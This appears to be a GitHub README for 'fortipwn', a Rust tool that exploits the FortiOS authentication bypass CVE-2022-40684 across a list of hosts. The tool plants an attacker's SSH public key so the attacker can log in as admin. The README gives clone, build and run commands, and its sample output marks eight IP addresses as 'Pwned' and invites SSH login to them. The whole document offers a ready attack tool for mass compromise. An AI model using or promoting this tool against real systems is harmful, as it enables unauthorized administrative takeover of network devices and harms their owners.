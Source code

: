 # fortipwn

Forti CVE-2022-40684 enumeration script built in Rust.

Uploads an SSH public key into authorized_keys, allowing an attacker to SSH into a server running FortiOS as admin.

# Usage
```console
./fortipwn <hosts.txt> <id_rsa.pub>
```

# Build
```console
git clone https://github.com/Grapphy/fortipwn/
cd fortipwn
cargo build --release
cd target/release/
./fortipwn <host.txt> <id_rsa.pub>
```

# Output
```console
$ ./fortipwn examples_ip.txt id_rsa.pub
Checking for 150 hosts. You might log-in through ssh as admin@host on pwned hosts.
Pwned: 210.29.110.143
Pwned: 144.14.71.122
Pwned: 21.220.10.82
Pwned: 163.123.102.32
Pwned: 121.159.192.10
Pwned: 162.49.194.19
Pwned: 185.92.20.40
Pwned: 194.19.211.19
Finished scanning
```
